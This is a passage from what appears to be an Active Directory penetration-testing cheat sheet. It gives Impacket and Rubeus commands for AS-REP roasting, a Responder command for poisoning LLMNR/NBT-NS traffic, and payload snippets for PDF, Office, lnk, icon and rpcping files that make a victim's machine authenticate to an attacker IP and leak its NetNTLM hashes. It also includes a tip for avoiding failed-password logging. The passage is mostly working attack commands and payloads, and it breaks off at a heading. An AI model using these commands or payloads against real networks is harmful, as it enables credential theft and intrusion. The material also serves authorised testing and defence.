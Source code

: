 With Impacket:

It is important to specify -no-pass in the script, otherwise a badpwdcount entry will be added to the user.
```
# For multiples users
GetNPUsers.py -request <domain_name>/

# For a single user
GetNPUsers.py -request -dc-ip 10.10.10.10 -no-pass <domain_name>/<user>

# For multiples users
GetNPUsers.py -request -dc-ip 10.10.10.10 -no-pass -usersfile users.txt <domain_name>/
```
With Rubeus:
```
# For multiples users
Rubeus.exe asreproast /domain:<domain_name> /format:<hashcat|john> /outfile:<filename>

# For a single user
Rubeus.exe asreproast /user:<user> /domain:<domain_name> /format:<hashcat|john> /outfile:<filename>

# For a spesific Organization Unit (OU)
Rubeus.exe asreproast /ou:<OU_name> /domain:<domain_name> /format:<hashcat|john> /outfile:<filename>
```

##### Responder
In an internal network you can abuse old protocol (like NBT-NS or LLMNR) and grab NetNTLMv2 hashes. You can then try to crack them with john or hashcat.
```
# As root
./Responder.py -I eth0 -wrb
```

#### Leak NetNTLM Hashes
When getting access to services, it might be possible to retrieve the NetNTLM hashes. This hash can be cracked or relayed (if signing is not enable on the protocol). There is multiples ways to leak this hash, such as:

###### PDF file
```
/F (\\\\\\\\IP@80\\\\t)
```
###### dubdoc
```
///1.2.3.4@80/t
```
###### Doc
```
Target=file://1.2.3.4@80/t.dotx
URL
file://IP@80/t.htm
```
###### lnk
```
URL\=file://1.2.3.4@80/t.htm
```
###### IconFile
```
\\\\1.2.3.4@80\\t.ico
```
###### rpcping
```
rpcping -s 1.2.3.4 -e 1234 -a privacy -u NTLM
```
###### dir